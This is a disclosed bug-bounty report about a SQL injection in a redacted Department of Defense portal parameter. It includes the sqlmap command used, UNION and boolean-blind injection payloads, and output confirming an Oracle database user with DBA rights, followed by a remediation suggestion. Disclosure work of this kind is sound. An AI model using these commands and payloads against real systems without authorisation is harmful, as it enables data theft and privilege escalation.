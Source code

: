 # SQL Injection vulnerability located at ████████

## Report Details
- **Report ID**: 384397
- **URL**: https://hackerone.com/reports/384397
- **State**: Closed
- **Severity**: high
- **Submitted**: 2018-07-19T21:42:37.010Z
- **Disclosed**: 2019-08-15T17:08:48.095Z

## Reporter
- **Username**: rootaccess
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: deptofdefense

## Vulnerability Information
**Summary:**
I have found a SQL Injection at ███████ in the ████ Portal.

**Description:**
The SQL injection is being caused by the unsanitized parameter of `_itemID=` i immediately  stopped testing when i verified it was possible to get the Current user and version of the Database.

1.The vulnerable url is : 
`https://█████/███Portal/█████?_██████=true&_st=&_pageLabel=█████████_███████_pubview_page&CCD_itemID=201826*` 
2. use sqlmap (https://github.com/sqlmapproject/sqlmap) with the following command 

```python
python sqlmap.py -u "https://██████/████████Portal/██████████?_█████=true&_st=&_pageLabel=███_██████_pubview_page&CCD_itemID=201826*" --random-agent --current-user --is-dba
```
sqlmap output : 
```
---
Parameter: #1* (URI)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: https://███████:443/███████Portal/████?_███=true&_st=&_pageLabel=███_█████_pubview_page&CCD_itemID=201826 AND 2833=2833

    Type: UNION query
    Title: Generic UNION query (NULL) - 2 columns
    Payload: https://██████████:443/████Portal/██████████?_███=true&_st=&_pageLabel=███_██████████_pubview_page&CCD_itemID=201826 UNION ALL SELECT NULL,CONCAT(CONCAT('qvzxq','ODiUngdWPubxHGXaEEDvfcozGjVAMxIqpHmWfTVJ'),'qbbxq') FROM VERSIONS-- AQYh
---
[22:37:56] [INFO] testing SAP MaxDB
[22:37:57] [WARNING] the back-end DBMS is not SAP MaxDB
[22:37:57] [INFO] testing MySQL
[22:37:58] [WARNING] the back-end DBMS is not MySQL
[22:37:58] [INFO] testing Oracle
[22:37:59] [INFO] confirming Oracle
[22:38:01] [INFO] the back-end DBMS is Oracle
web application technology: Apache, Servlet 2.5, JSP, JSP 2.1
back-end DBMS: Oracle
[22:38:01] [INFO] fetching current user
current user:    ██████████
[22:38:02] [INFO] testing if current user is DBA
current user is DBA:    True
```

##Screenshot

{F322498}

## Suggested Mitigation/Remediation Actions
Sanitize the parameter of `_itemID=` through the use of prepared statements, or other forms of sanitizing.

## Impact

It could be possible for an attacker to Retrieve data, and depending of the data being stored in the database(passwords) it could be possible to further pivot, and get RCE since the current user in the database has DBA rights.

## Attachments
No attachments
